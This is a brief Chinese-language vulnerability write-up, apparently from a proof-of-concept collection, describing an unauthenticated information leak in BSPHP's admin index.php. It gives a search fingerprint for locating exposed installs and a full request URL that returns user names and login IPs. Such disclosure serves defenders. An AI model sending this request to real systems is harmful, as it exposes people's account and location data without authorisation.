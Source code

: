 # BSPHP index.php 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

```
BSPHP
```

## 网络测绘

```
"BSPHP"
```

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```plain
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![](images/202202162317323.png)